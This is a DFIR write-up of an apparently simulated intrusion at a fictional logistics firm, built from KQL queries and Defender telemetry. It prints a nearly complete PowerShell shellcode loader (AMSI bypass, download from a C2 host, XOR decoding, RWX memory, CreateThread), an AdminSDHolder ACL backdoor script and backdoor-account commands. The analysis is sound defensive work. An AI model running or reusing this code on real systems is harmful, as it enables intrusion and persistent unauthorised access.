# Hidden Directive — DFIR Investigation 


**Tools:** Microsoft Sentinel · Defender XDR · KQL
**Author:** Danielle R · [LinkedIn](https://www.linkedin.com/in/danielle-respes-64113767/)

## About this case
On 4 July 2026, GF-WS01 at Greenfield Logistics triggered alerts, the MSSP escalated, and a P1 incident was declared. I worked it as a full DFIR investigation across three hosts — GF-WS01, GF-SRV01, GF-DC01 — reconstructing initial access, lateral movement, and impact, every claim cited to telemetry.

This is a live-incident case, not a flag hunt. Each phase documents the question, the query, the finding, and the reasoning.

---

### Executive Summary

| Category | Details |
| :--- | :--- |
| **Initial Access Vector** | Compromised Azure Service Principal (`5deb2a08...`) via Run Command |
| **Impact & Breadth** | `SYSTEM`-level code execution on `GF-WS01` & backdoor persistence established |
| **Scope & Telemetry** | 3 endpoints (`GF-WS01`, `GF-SRV01`, `GF-DC01`) · Microsoft Sentinel & Defender XDR |

---

## Full breakdown of each phase below:


---

## Attack Flow Diagram


```mermaid
graph LR
    A["Attacker<br/>4.153.100.221"] -->|Leverages Compromised Identity| B["Service Principal<br/>Compromised"]
    B -->|Azure Run Command| C["GF-WS01<br/>Initial Foothold"]
    C -->|script49.ps1 / SYSTEM| D["Persistence<br/>Established"]
    C -->|Lateral Movement| E["GF-SRV01<br/>Compromised"]
    C -->|Lateral Movement| F["GF-DC01<br/>Compromised"]

    classDef attacker fill:#fee2e2,stroke:#dc2626,stroke-width:2px,color:#7f1d1d
    classDef compromised fill:#fef3c7,stroke:#d97706,stroke-width:2px,color:#78350f
    classDef foothold fill:#e0e7ff,stroke:#4338ca,stroke-width:2px,color:#1e1b4b
    classDef persistence fill:#fce7f3,stroke:#db2777,stroke-width:2px,color:#831843

    class A attacker
    class B compromised
    class C foothold
    class D persistence
    class E,F compromised
```

---

## Report Submission

**Case:** GF-INC-2026-0704
**Analyst:** Danielle R
**Date:** August 1, 2026
**Telemetry sources used:** LAW-SilentCorridor, LAW-Cyber-Range

---

## Investigation

*Phases documented below as I work them.*

## C01 — Access & Environment

**Goal:** Confirm access to the telemetry, scope queries to the three in-scope hosts and the incident window.

**Sources:** Microsoft Sentinel workspace `LAW-SilentCorridor` (ASIM/custom logs, primary) and `LAW-Cyber-Range` (MDE Device tables, fallback).

**Incident window:** 4 Jul 2026 10:00 UTC – 5 Jul 2026 03:00 UTC
**Host scope:** `DvcHostname has_any ("GF-WS01","GF-SRV01","GF-DC01")`

```kql
union withsource=SourceTable *
| where TimeGenerated between (datetime(2026-07-04 10:00) .. datetime(2026-07-05 03:00))
| where DvcHostname has_any ("GF-WS01","GF-SRV01","GF-DC01")
| distinct $table
```

**Found:** Confirmed access and scoping. Available tables for the incident: WindowsAuth_CL, WindowsNetwork_CL, WindowsProcess_CL, WindowsFile_CL, WindowsRegistry_CL, WindowsDNS_CL, WindowsService_CL, WindowsAccountMgmt_CL.

**Reasoning:** Confirming scope first (correct workspace, working host filter, right time window) prevents pulling other estates' data and maps which telemetry is available before hunting.

---

## C02 — Initial Access: Compromised Azure Service Principal

Exploiting a compromised cloud identity to execute remote commands on an internal virtual machine.

---

### Timeline

**8:01 AM** — Azure Management Operation (LAW-Cyber-Range)

```kql
AzureActivity
| where OperationName == "MICROSOFT.COMPUTE/VIRTUALMACHINES/DEALLOCATE/ACTION"
| where Caller == "5deb2a08-7269-47d6-896b-8bc52d396466"
| where CallerIpAddress == "4.153.100.221"
```

---

### How to Explain This Phase Simply

| | |
|---|---|
| **What happened** | The attacker compromised an Azure Service Principal (an automated cloud identity) with Contributor permissions |
| **The vector** | Used Azure's native `Run Command` feature to remotely execute a malicious script (`script49.ps1`) directly on an internal VM |
| **The result** | `Run Command` runs natively through the Azure VM Agent, so the script executed immediately with full `NT AUTHORITY\SYSTEM` privileges — no local password needed |
| **Why it's dangerous** | Bridges cloud control-plane compromise straight into local host takeover |

### Cross-SIEM Validation: LAW-SilentCorridor vs Defender XDR

**Key Finding:** Initial cloud activity (8:01 AM) and host-level execution (10:01 AM) reflect telemetry latency through the Azure VM extension, confirming full path correlation across all three sources.

| Source | Timestamp | Technical Detail | In Plain Words |
|---|---|---|---|
| **LAW-SilentCorridor** | 10:01:34.963 AM | Full command line: `"cmd" /Powershell -ExecutionPolicy Unrestricted -File script49.ps1` | Proves the attacker turned off PowerShell's safety checks on purpose |
| **Defender XDR** | 10:01:34.997 AM | Process chain: `cmd.exe → powershell.exe → net.exe`, user `NT AUTHORITY\SYSTEM` | Shows exactly what that command did next, with full system privileges |

Together, these log sources confirm the initial access method: Azure Run Command execution with policy bypass leading to backdoor account creation.


```mermaid
graph TB
    Title["Attack Date: July 4, 2026"]
    Title --> A[LAW-Cyber-Range: Azure Log 8:01 AM]
    Title --> B[LAW-SilentCorridor: Process Log 10:01:34.963 AM]
    Title --> C[Defender XDR: Device Timeline 10:01:34.997 AM]

    A --> A1[Azure Run Command from 4.153.100.221]
    B --> B1[script49.ps1 run by GF-WS01$ with -ExecutionPolicy Unrestricted]
    C --> C1[runcommandextension.exe to cmd.exe to powershell.exe to net.exe to net1.exe]

    A1 --> D[Confirmed Chain]
    B1 --> D
    C1 --> D
    D --> E[cmd.exe launches powershell.exe]
    E --> F[AmsiContentDetails script scan]
    F --> G[powershell.exe launches net.exe]
    G --> H[net1.exe enumerates sancadmin group membership]

    classDef source fill:#e0e7ff,stroke:#4338ca,color:#1e1b4b
    classDef finding fill:#f3f4f6,stroke:#6b7280,color:#111827
    classDef result fill:#fef3c7,stroke:#d97706,color:#78350f
    class A,B,C source
    class A1,B1,C1 finding
    class D,E,F,G,H result
```

### Why the Times Are Different

Think of this like a text message: you hit send, but it takes a second to arrive and be read. Same idea here, just stretched out.

| Layer | Time | Source | What Happened |
|---|---|---|---|
| **1. Cloud command** | 8:01 AM | LAW-Cyber-Range | Attacker's stolen cloud identity sends the command from IP 4.153.100.221 — this is where the attack starts |
| **2. Host execution** | 10:01:34 AM | LAW-SilentCorridor + Defender XDR | The command actually runs on GF-WS01 — this is where it lands and does damage |

**Why the ~2-hour gap:** the command has to travel from Azure, through the VM's extension, into a queue, before it finally runs on the machine. All three logs are correct — they're just watching different stops on the same trip.

**Together, these three logs prove the full path:** stolen cloud key → command sent → command runs → attacker gets in.

<details>
<summary><b>→ Raw Query Evidence (KQL)</b></summary>

**10:01:34 AM — Payload Execution (LAW-SilentCorridor)**

```kql
WindowsProcess_CL
| where DvcHostname == "GF-WS01.greenfield.local"
| where TargetProcessCommandLine contains "script49.ps1"
| where ActorUsername == "NT AUTHORITY\SYSTEM"
| project TimeGenerated, ActorUsername, TargetProcessCommandLine
```

Result: PowerShell executes script49.ps1 with SYSTEM privileges and unrestricted execution policy.

**10:01:35 AM — Persistence Established (LAW-SilentCorridor)**

```kql
WindowsProcess_CL
| where DvcHostname == "GF-WS01.greenfield.local"
| where TargetProcessCommandLine has_any ("net user sancadmin", "net localgroup")
| where TimeGenerated between (datetime(2026-07-04 10:01:35) .. datetime(2026-07-04 10:01:36))
| project TimeGenerated, ActorUsername, TargetProcessCommandLine
```

Result:
10:01:35.466 AM | NT AUTHORITY\SYSTEM | net.exe user sancadmin ChangeThis2026fix
10:01:35.783 AM | NT AUTHORITY\SYSTEM | net.exe user sancadmin /active:yes

</details>

### MITRE ATT&CK Mapping

| Timestamp | Tactic | Technique | Action |
|-----------|--------|-----------|--------|
| 8:01 AM | Initial Access | T1078 (Valid Accounts) | Compromised Service Principal |
| 10:01:34 AM | Execution | T1059 (Command Execution) | script49.ps1 via PowerShell |
| 10:01:35 AM | Persistence | T1136 (Create Account) | sancadmin local admin account |

**Evidence Sources:** LAW-Cyber-Range (Azure management logs) + LAW-SilentCorridor (Windows process telemetry)


---
## C03 — Payload Analysis: Fileless PowerShell Loader


> [!NOTE]
> **Operational Security:** Evidence contained live malware. I created an isolated VM in the Log(N)Pacific cyber range, RDP'd from my Mac, extracted & analyzed in sandbox, then deleted the VM. No malware on personal systems.


In-memory execution of XOR-encoded malware via reflective injection.

| | |
|---|---|
| **Attack Method** | Obfuscated PowerShell loader (`script49.ps1`) executing directly in RAM |
| **Impact** | Bypassed AMSI, downloaded encrypted C2 payload, allocated RWX memory, and executed shellcode via `CreateThread` |


---

### Execution Flow


```mermaid
graph LR
    A["loader.ps1<br/>Executes"] --> B["Step 1<br/>AMSI Bypass"]
    B --> C["Step 2<br/>Download Shellcode"]
    C --> D["Step 3<br/>XOR Decrypt"]
    D --> E["Step 4<br/>Allocate Memory"]
    E --> F["Step 5<br/>Inject Shellcode"]
    F --> G["Step 6<br/>Execute via Thread"]

    classDef entry fill:#e0e7ff,stroke:#4338ca,stroke-width:2px,color:#1e1b4b
    classDef evasion fill:#fee2e2,stroke:#dc2626,stroke-width:2px,color:#7f1d1d
    classDef stage fill:#fef3c7,stroke:#d97706,stroke-width:2px,color:#78350f
    classDef exec fill:#dcfce7,stroke:#16a34a,stroke-width:2px,color:#14532d

    class A entry
    class B evasion
    class C,D,E,F stage
    class G exec
```

**Legend:** 🟦 Entry point &nbsp;·&nbsp; 🟥 Defense evasion &nbsp;·&nbsp; 🟨 Payload staging &nbsp;·&nbsp; 🟩 Execution


  
---

### What I Found

**File:** loader.ps1 (928 bytes)  
**SHA-256:** 93164086788a0a8b5a16816922b631ff191ba1bdb5fd83cf25349ddc03af7583

The script does six things in sequence. Here's what each step does:

---

<details>
<summary><b>Step 1: AMSI Bypass</b> — Disable Windows Defender Detection</summary>

```powershell
$a=[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')
$a.GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

**What it does:** Uses .NET reflection to access the AMSI (Antimalware Scan Interface) framework and sets a flag that tells Windows "scanning failed, stop trying." This prevents Defender from analyzing the next PowerShell commands.

**Why:** Gives the attacker free rein to execute arbitrary commands without real-time detection.

</details>

---

<details>
<summary><b>Step 2: Fetch Encoded Payload</b> — Download from attacker server</summary>

```powershell
$url = 'https://cdn.cloud-endpoint.net/update'
$enc = (New-Object System.Net.WebClient).DownloadData($url)
```

**What it does:** Creates a WebClient and downloads binary data from the attacker's C2 server. The data is encoded (not raw shellcode yet).

**Why:** Keeps the actual malicious code off-disk. It only exists in memory during execution.

</details>

---

<details>
<summary><b>Step 3: Decode Payload</b> — XOR decryption</summary>

```powershell
$key = 0x4A
$sc = [byte[]]($enc | ForEach-Object { $_ -bxor $key })
```

**What it does:** Takes each byte from the downloaded data and XORs it with 0x4A. XOR is a simple cipher — reversible if you know the key.

**Why:** Makes the payload harder to detect via static signature analysis. Defenders scanning network traffic would see gibberish, not recognizable malware patterns.

</details>

---

<details>
<summary><b>Step 4: Allocate Executable Memory</b> — VirtualAlloc</summary>

```powershell
Add-Type -MemberDefinition '[DllImport("kernel32")]public static extern IntPtr VirtualAlloc(IntPtr a,uint s,uint t,uint p);...' -Name K -Namespace W
$mem = [W.K]::VirtualAlloc([IntPtr]::Zero,[uint32]$sc.Length,0x3000,0x40)
```

**What it does:** Calls the Windows kernel directly (P/Invoke) to request a memory region. Flags used:
- `0x3000` = MEM_COMMIT | MEM_RESERVE (allocate and commit)
- `0x40` = PAGE_EXECUTE_READWRITE (readable, writable, AND executable)

**Why:** Creates a space in RAM where code can run without touching disk. This is in-memory execution — no .exe file, no detectable artifact on drive.

</details>

---

<details>
<summary><b>Step 5: Copy Shellcode to Memory</b> — Injection</summary>

```powershell
[Runtime.InteropServices.Marshal]::Copy($sc,0,$mem,$sc.Length)
```

**What it does:** Uses .NET's Marshal class to copy the decoded shellcode bytes into the allocated memory region.

**Why:** Moves the malicious code from the downloaded packet into the executable memory space, ready to run.

</details>

---

<details>
<summary><b>Step 6: Execute**</b> — CreateThread & Wait</summary>

```powershell
$t = [W.K]::CreateThread([IntPtr]::Zero,0,$mem,[IntPtr]::Zero,0,[IntPtr]::Zero)
[W.K]::WaitForSingleObject($t,[uint32]0xFFFFFFFF)
```

**What it does:** 
- `CreateThread` spawns a new thread starting at the shellcode address
- `WaitForSingleObject` pauses the PowerShell script until the shellcode finishes

**Why:** Executes the payload. The `0xFFFFFFFF` parameter means "wait forever" — the script doesn't exit until the shellcode is done.

</details>

---

### MITRE ATT&CK Mapping

| Tactic | Technique | ID | Evidence |
|--------|-----------|----|----|
| Defense Evasion | Impair Defenses (AMSI) | T1562.001 | AMSI flag set to $true |
| Execution | Command & Scripting (PowerShell) | T1059.001 | Entire loader is PowerShell |
| Execution | Native API | T1106 | P/Invoke: VirtualAlloc, CreateThread |
| Defense Evasion | Obfuscated Files | T1027 | XOR encryption (key 0x4A) |

---

### Indicators of Compromise

> [!WARNING]
> **Alert: These IOCs match your intrusion**

- **C2 Domain:** `cdn.cloud-endpoint.net/update`
- **Script Hash:** `93164086788a0a8b5a16816922b631ff191ba1bdb5fd83cf25349ddc03af7583`
- **Encryption Key:** `0x4A` (XOR)
- **Memory Signature:** VirtualAlloc + PAGE_EXECUTE_READWRITE (0x40) + CreateThread pattern

---

### What This Tells Me About the Attacker

1. **Sophisticated:** They use reflective loading and in-memory execution — avoids disk IOCs
2. **Prepared:** Pre-encoded payload + C2 infrastructure ready
3. **Defense-aware:** AMSI bypass shows they know Windows Defender is standard
4. **Modular:** The loader is generic — could deploy any shellcode payload

---

### Questions I Still Have

- What's in the shellcode? (Need DeviceEvents logs from LAW-Cyber-Range to see what actions it took)
- Who owns `cdn.cloud-endpoint.net`? (OSINT task)
- Was this a targeted attack or spray-and-pray campaign?

These are for C04 (Impact Analysis).

---

## C04 — Persistence Mechanisms: Backdoor Accounts & Scheduled Tasks

Establishing long-term access across endpoints using local admin creation and SYSTEM tasks.

| | |
|---|---|
| **Attack Method** | Created local admin `sancadmin` on `GF-WS01` and a hidden scheduled task (`WindowsUpdate`) on `GF-SRV01` |
| **Impact** | Maintains persistent access to host endpoints that survives standard user domain password resets |


---

### Finding 1: sancadmin Local Admin Account (GF-WS01)

**Timestamp:** Jul 4, 2026 6:01:35 AM | **User:** NT AUTHORITY\SYSTEM | **Status:** Easily Removable

<details>
<summary><b>→ View Defender Timeline Evidence</b></summary>



Event: net1.exe enumerated Local Group membership of GF-WS01\sancadmin  
Process Chain: powershell.exe → net.exe → net1.exe → sancadmin

</details>

Created via PowerShell → net.exe during initial payload execution. Standard local account persistence.

**Remediation:**
```cmd
net user sancadmin /delete
```

---

### Finding 2: WindowsUpdate Scheduled Task (GF-SRV01) — Survives Password Reset

**Timestamp:** Jul 4, 2026 9:11:20 AM | **User:** GREENFIELD\t.harris | **Status:** Password Reset Won't Remove This

<details>
<summary><b>→ View Defender Timeline Evidence</b></summary>



Event: powershell.exe created scheduled task WindowsUpdate via schtasks.exe  
Process Chain: userinit.exe → explorer.exe → powershell.exe → schtasks.exe  
Execution Context: Task runs as NT AUTHORITY\SYSTEM

</details>

Scheduled task runs as SYSTEM (not tied to user account). Standard domain password reset leaves this active.

**Why it persists:** Domain password reset only invalidates user credentials, not task configurations running as SYSTEM.

**Required Remediation:**
```cmd
schtasks /delete /tn WindowsUpdate /f
del C:\Windows\Temp\srv.exe
```

---

### Investigation Method

Located via Defender XDR → Device Timeline → Process Events + Scheduled Task Events filters on affected hosts.

---

## C05 — Privilege Escalation

`sancadmin` stole a SYSTEM process's access token and assigned it to another process, spawning `cmd.exe` running as `NT AUTHORITY\SYSTEM`.

| Category | Details |
| :---: | :---: |
| **Attack Method** | Access Token Manipulation (`SeImpersonatePrivilege` / `SeAssignPrimaryTokenPrivilege`) stolen from `StoreDesktopExtension.exe` |
| **Execution Path** | Token assigned to `CollectGuestLogs.exe`, spawning `cmd.exe` as `NT AUTHORITY\SYSTEM` |
| **Impact & Stealth** | Bypassed standard persistence & service creation detections; full SYSTEM privileges achieved |
| **MITRE ATT&CK** | **T1134** (Access Token Manipulation) · **T1574** (Hijack Execution Flow) |

### Key Evidence & Telemetry Logs

| Timestamp | Source Log | Event Details |
| :---: | :---: | :--- |
| **9:55:00.341 PM** | `Defender XDR (DeviceEvents)` | `ProcessPrimaryTokenModification` detected on `StoreDesktopExtension.exe` by user `gf-ws01\sancadmin` |
| **9:55:00.412 PM** | `Defender XDR (DeviceProcessEvents)` | Token assigned to host process `CollectGuestLogs.exe` |
| **9:55:00.500 PM** | `LAW-SilentCorridor (WindowsProcess_CL)` | `CollectGuestLogs.exe` spawned `cmd.exe` running under `NT AUTHORITY\SYSTEM`, launched with a named pipe as stdin (`CmdExecutionWithStdInNamedPipe`) |

---

### Privilege Escalation Process Flow


```mermaid
graph TB
    Title["Attack Date: July 4, 2026"]
    Title --> L1["LAW-Cyber-Range<br/>(Azure & Cloud Logs)"]
    Title --> L2["LAW-SilentCorridor<br/>(WindowsProcess_CL)"]
    Title --> L3["Defender XDR<br/>(DeviceEvents & DeviceProcessEvents)"]

    L1 --> A1["No Token Events Captured<br/>(Out of Scope for Workspace)"]

    L2 --> B1["9:55:00.500 PM<br/>CollectGuestLogs.exe spawned<br/>cmd.exe as SYSTEM"]

    L3 --> C1["9:55:00.341 PM<br/>ProcessPrimaryTokenModification<br/>StoreDesktopExtension.exe"]
    L3 --> C2["9:55:00.412 PM<br/>Token Assigned to<br/>CollectGuestLogs.exe"]

    B1 & C1 & C2 --> D["Confirmed Privilege Escalation Chain"]

    D --> Foothold["Initial Foothold<br/>gf-ws01\sancadmin"]
    Foothold -->|Executes Tool| TargetProc["Target Process<br/>StoreDesktopExtension.exe"]
    TargetProc -->|Stolen Token<br/>SeImpersonatePrivilege| Token["Access Token<br/>NT AUTHORITY\SYSTEM"]
    Token -->|Assigns Token to| HostProc["Host Process<br/>CollectGuestLogs.exe"]
    HostProc -->|Spawns Shell| Shell["cmd.exe<br/>Full SYSTEM Access"]

    classDef source fill:#e0e7ff,stroke:#4338ca,color:#1e1b4b
    classDef empty fill:#f3f4f6,stroke:#9ca3af,stroke-dasharray: 5 5,color:#6b7280
    classDef finding fill:#fce7f3,stroke:#db2777,color:#831843
    classDef result fill:#fef3c7,stroke:#d97706,color:#78350f
    classDef system fill:#fee2e2,stroke:#dc2626,stroke-width:2px,color:#7f1d1d

    class L1 source
    class L2,L3 source
    class A1 empty
    class B1,C1,C2 finding
    class D,Foothold,TargetProc,HostProc,Token result
    class Shell system
```

### Cross-SIEM Validation: LAW-SilentCorridor vs Defender XDR

| Source | Found? | What It Shows |
|---|---|---|
| **LAW-SilentCorridor** | Partial | Logged process creation (`cmd.exe`), but missed the underlying token modification event |
| **Defender XDR** | Found | Captured explicit `ProcessPrimaryTokenModification` event at 9:55:00.341 PM |

**Key Finding:** While LAW-SilentCorridor caught the resulting `cmd.exe` process launch, the underlying token manipulation is visible only in Defender XDR — standard process logs lack primary token modification event types.

<details>
<summary><b>→ Full Evidence</b></summary>

**Initial Access:** Jul 4, 2026 9:55:00.341 PM | **User:** gf-ws01\sancadmin | **Action:** Token Modified
**Escalation to SYSTEM:** Jul 4, 2026 9:55:00.500 PM | **User:** NT AUTHORITY\SYSTEM | **Action:** Process Created


**Privilege Escalation Chain:**



**Full Token Modification and Process Chain:**


Process Chain: services.exe → WaAppAgent.exe → CollectGuestLogs.exe → cmd.exe → conhost.exe

**Why stealthy:** No service installation or modification events generated — standard detection misses it. `cmd.exe` was also launched with a named pipe as stdin (`CmdExecutionWithStdInNamedPipe`), consistent with remote command execution tooling rather than interactive use.
</details>


---

## C06 — Defense Evasion: Process Hijacking

Attacker injected code into a trusted, Microsoft-signed process to quietly disable driver-signing enforcement.

| | |
|---|---|
| **Attack Method** | Injected code into legitimate `aggregatorhost.exe` process to modify driver signing registry keys |
| **Impact** | Disabled WHQL driver enforcement while blending into normal Microsoft system telemetry to bypass EDR detections |


<details>
<summary><b>→ Full Evidence</b></summary>

**Timestamp:** Jul 8, 2026 10:00:55 PM | **User:** NT AUTHORITY\SYSTEM | **Action:** Registry Modified

**Process Chain:** services.exe → svchost.exe → aggregatorhost.exe → Registry Modification

**Registry Key Modified:** HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Control\CI\WhqlOnlyEvaluation

**Critical Detail:** `aggregatorhost.exe` is Microsoft-signed and legitimate, but attacker-injected code runs inside it — Defender sees a trusted system process modifying security settings and doesn't flag it.

</details>

---
## C07 — Credential Access: Multi-Vector Credential Harvesting


```mermaid
graph TD
    A["Attacker: sancadmin"] --> B["Stored Credential Staging<br/>cmdkey /add & /list"]
    A --> C["Password Vault Access<br/>KeePass.exe --preload"]
    A --> D["AD Account Recon<br/>Get-ADUser svc_backup"]
    A --> E["LSASS Prep<br/>tasklist | findstr lsass"]

    B & C & D & E --> F["Result: Staged keepass.zip &<br/>Targeted Service Account Credentials"]

    classDef attacker fill:#1f2937,color:#fff,stroke:#3b82f6,stroke-width:2px
    classDef vector fill:#fce7f3,stroke:#db2777,color:#831843
    classDef result fill:#991b1b,color:#fff,stroke:#ef4444,stroke-width:2px

    class A attacker
    class B,C,D,E vector
    class F result
```


| Category | Details |
| :---: | :---: |
| **Attack Method** | Credential enumeration and harvesting across multiple vectors: stored credentials, password manager, and AD service accounts |
| **Impact** | Attacker gained visibility into `GREENFIELD\m.smith`'s stored credentials, dumped the KeePass password vault, and targeted the `svc_backup` service account for privilege escalation |
| **MITRE ATT&CK** | **T1555** (Credentials from Password Stores) · **T1003** (OS Credential Dumping — preparation) · **T1087** (Account Discovery) |

---

### Credential Access Process Flow


```mermaid
graph TB
    Title["Attack Date: July 4, 2026"]
    Title --> L1["LAW-Cyber-Range<br/>(Azure & Cloud Logs)"]
    Title --> L2["LAW-SilentCorridor<br/>(WindowsProcess_CL)"]
    Title --> L3["Defender XDR<br/>(Device Timeline)"]

    L1 --> A1["No Credential Access Events Captured<br/>(Out of Scope for Workspace)"]
    L3 --> A2["No Command-Line Detail Captured<br/>(High-Level Process Events Only)"]

    L2 --> B1["9:15:01 AM<br/>cmdkey adds credentials<br/>for GREENFIELD\m.smith"]
    L2 --> B2["10:04:50 AM<br/>KeePass.exe launched"]
    L2 --> B3["11:32:41 AM<br/>Get-ADUser svc_backup<br/>targeted"]
    L2 --> B4["12:08:26 PM<br/>tasklist searches for lsass"]

    B1 --> D["Confirmed Credential<br/>Harvesting Chain"]
    B2 --> D
    B3 --> D
    B4 --> D

    D --> Step1["Step 1<br/>Stored Credentials Harvested<br/>GREENFIELD\m.smith"]
    Step1 --> Step2["Step 2<br/>KeePass Vault Opened"]
    Step2 --> Step3["Step 3<br/>AD Service Account Targeted<br/>svc_backup"]
    Step3 --> Step4["Step 4<br/>LSASS Dump Preparation"]

    classDef source fill:#e0e7ff,stroke:#4338ca,color:#1e1b4b
    classDef empty fill:#f3f4f6,stroke:#9ca3af,stroke-dasharray: 5 5,color:#6b7280
    classDef finding fill:#fce7f3,stroke:#db2777,color:#831843
    classDef result fill:#fef3c7,stroke:#d97706,color:#78350f
    classDef step fill:#fee2e2,stroke:#dc2626,stroke-width:2px,color:#7f1d1d

    class L1,L2,L3 source
    class A1,A2 empty
    class B1,B2,B3,B4 finding
    class D result
    class Step1,Step2,Step3,Step4 step
```

---
### Key Evidence & Telemetry Logs

| Timestamp | Source Log | Event Details |
| :---: | :---: | :--- |
| **9:15:01 AM** | `LAW-SilentCorridor` | `cmdkey /add:GF-SRV01 /user:GREENFIELD\m.smith` — adding stored credentials |
| **10:04:50 AM** | `LAW-SilentCorridor` | `KeePass.exe --preload` — password store discovery & password manager execution |
| **11:25:03 AM** | `LAW-SilentCorridor` | `cmdkey /list` — enumerating stored Windows credentials |
| **11:32:41 AM** | `LAW-SilentCorridor` | `Get-ADUser svc_backup -Properties Description,ServicePrincipalNames` — service account target discovery |
| **11:57:54 AM** | `LAW-SilentCorridor` | `cmdkey /list` — repeated stored credential enumeration |
| **12:08:26 PM** | `LAW-SilentCorridor` | `tasklist \| findstr lsass` — prepping for LSASS memory dump |

---

### Cross-SIEM Validation: LAW-SilentCorridor vs Defender XDR vs LAW-Cyber-Range

| Source | Found? | Reason |
| :--- | :---: | :--- |
| **LAW-Cyber-Range** | Not found | Password and credential discovery occurred at the host level, outside the scope of Azure cloud logs |
| **Defender XDR** | Partial | Logged high-level process execution (`KeePass.exe`, `cmdkey.exe`), but lacked the command-line arguments required to prove password vault discovery |
| **LAW-SilentCorridor** | Found | ASIM `WindowsProcess_CL` captured full command lines and arguments (`--preload`, `/add`, `svc_backup`) |

**Key Finding:** While Defender XDR observed the password manager and credential utilities launching, only LAW-SilentCorridor provided the full command-line arguments required to confirm password store discovery and credential harvesting.

---
## C08 — Discovery

Reconnaissance and enumeration to map the network, identify admin accounts, and find lateral-movement targets — different techniques across all three hosts.

| | |
|---|---|
| **Attack Method** | `dsregcmd.exe` automated discovery seconds after initial access; `Get-ADUser`/`Get-ADComputer`/`Get-ADGroup` enumeration; `systeminfo`/`whoami`; SQL Server discovery via SQLCMD |
| **Impact** | Complete domain architecture mapped, service account (`svc_backup`) compromised, all three hosts enumerated for lateral movement |


```mermaid
graph LR
    subgraph WS01["GF-WS01"]
        A["dsregcmd.exe<br/>Automated Discovery"] --> B["svc_backup<br/>Enumerated"]
    end
    subgraph SRV01["GF-SRV01"]
        C["System/User Discovery"] --> D["SQL Server<br/>xp_cmdshell Found"]
    end
    subgraph DC01["GF-DC01"]
        E["Full AD Enumeration"] --> F["AdminSDHolder<br/>ACL Modified"]
    end
    B --> G["Full Domain<br/>Enumerated"]
    D --> G
    F --> G
    classDef host fill:#fef3c7,stroke:#d97706,stroke-width:2px,color:#78350f
    classDef impact fill:#f3e8ff,stroke:#9333ea,stroke-width:2px,color:#581c87
    class A,B,C,D,E,F host
    class G impact
```

<details>
<summary><b>→ Full Evidence: Timeline & Methodology</b></summary>

**GF-WS01** (10:03 AM+) — `dsregcmd.exe` fired automatically within seconds of initial access; `whoami` confirmed `sancadmin`; `Get-ADUser svc_backup -Properties Description` extracted embedded credentials; `systeminfo` at 1:10 PM.

**GF-SRV01** (10:25 AM+) — `dsregcmd.exe`, `systeminfo`, `whoami`/`whoami /priv` revealed two more compromised accounts (`t.harris`, `d.williams`); SQLCMD found SQL Server with `xp_cmdshell` enabled.

**GF-DC01** (10:11 AM+) — `dsregcmd.exe` within 10 minutes of initial access; full AD sweep (`Get-ADUser`, `Get-ADComputer`, `Get-ADGroup`, `repadmin`, `Get-DnsServerZone`) at 11:42 AM; AdminSDHolder ACL modified at 3:44:59 PM to grant `svc_backup` `GenericAll`:

```powershell
Import-Module ActiveDirectory
$acl = Get-Acl 'AD:CN=AdminSDHolder,CN=System,DC=greenfield,DC=local'
$sid = (Get-ADUser svc_backup).SID
$rule = New-Object System.DirectoryServices.ActiveDirectoryAccessRule($sid,'GenericAll','Allow')
$acl.AddAccessRule($rule)
Set-Acl -AclObject $acl 'AD:CN=AdminSDHolder,CN=System,DC=greenfield,DC=local'
```

**Methodology note:** Initial ScriptBlock log search in Defender XDR returned 0 results — pivoted to KQL against `LAW-SilentCorridor WindowsProcess_CL` to recover the actual command text.

</details>

---

## C09 — Lateral Movement

Two independent routes converged on `GF-SRV01`, then pivoted through `GF-DC01`, which served as the persistent internal authentication hub for the rest of the operation.

| Category | Details |
|---|---|
| **Attack Method** | Route 1: `GF-SRV01$` computer account (Pass-the-Hash) from 10.1.0.169. Route 2: `t.harris` domain user from 10.1.0.120. Both later authenticated to `GF-DC01` via Kerberos (TGT/TGS) and Overpass-the-Hash |
| **Impact** | Attacker gained a foothold on `GF-SRV01` from two separate paths, then used `GF-DC01` as the pivot for all subsequent authentication — including additional compromised accounts `m.smith` and backdoor `sancadmin` |
| **MITRE ATT&CK** | **T1550.002** (Pass the Hash) · **T1550.003** (Pass the Ticket / Overpass-the-Hash) · **T1021.002** (SMB/Windows Admin Shares) |

### Lateral Movement Process Flow


```mermaid
graph TB
    Title["Attack Date: July 4, 2026"]
    Title --> L1["LAW-Cyber-Range<br/>(Azure & Cloud Logs)"]
    Title --> L2["LAW-SilentCorridor<br/>(WindowsAuth_CL)"]
    Title --> L3["Defender XDR<br/>(Device Timeline)"]

    L1 --> A1["No Lateral Movement Events Captured<br/>(Out of Scope for Workspace)"]

    L2 --> R1["Route 1: Machine-to-Machine<br/>10:01:48 AM<br/>GF-SRV01$ from 10.1.0.169<br/>Pass-the-Hash"]
    L2 --> R2["Route 2: Human Account<br/>11:10:00 AM<br/>t.harris from 10.1.0.120"]
    L3 --> R2

    R1 --> D["Both Converge on GF-DC01<br/>11:10:04 AM"]
    R2 --> D

    D --> K1["EventID 4768/4769<br/>Kerberos TGT/TGS<br/>Overpass-the-Hash"]
    D --> K2["EventID 4624<br/>t.harris successful logon"]
    D --> K3["EventID 4771<br/>Failed pre-auth from 10.1.0.169<br/>Suspicious"]

    K1 --> P["GF-DC01 Confirmed as<br/>Persistent Authentication Pivot"]
    K2 --> P
    K3 --> P

    P --> M1["m.smith logs into GF-SRV01<br/>from 10.1.0.133"]
    P --> M2["sancadmin backdoor<br/>accesses GF-DC01"]

    classDef source fill:#e0e7ff,stroke:#4338ca,color:#1e1b4b
    classDef empty fill:#f3f4f6,stroke:#9ca3af,stroke-dasharray: 5 5,color:#6b7280
    classDef route fill:#dbeafe,stroke:#2563eb,color:#1e3a8a
    classDef event fill:#fce7f3,stroke:#db2777,color:#831843
    classDef result fill:#fef3c7,stroke:#d97706,color:#78350f
    classDef account fill:#fee2e2,stroke:#dc2626,color:#7f1d1d

    class L1,L2,L3 source
    class A1 empty
    class R1,R2 route
    class K1,K2,K3 event
    class D,P result
    class M1,M2 account
```


### Cross-SIEM Validation: LAW-SilentCorridor vs Defender XDR

**Key Finding:** Authentication (11:10:04 AM) and destination file access (11:10:49 AM) are captured 45 seconds apart across different sources, confirming the full lateral movement chain from login to file access.

| Source | Timestamp | Technical Detail | In Plain Words |
|---|---|---|---|
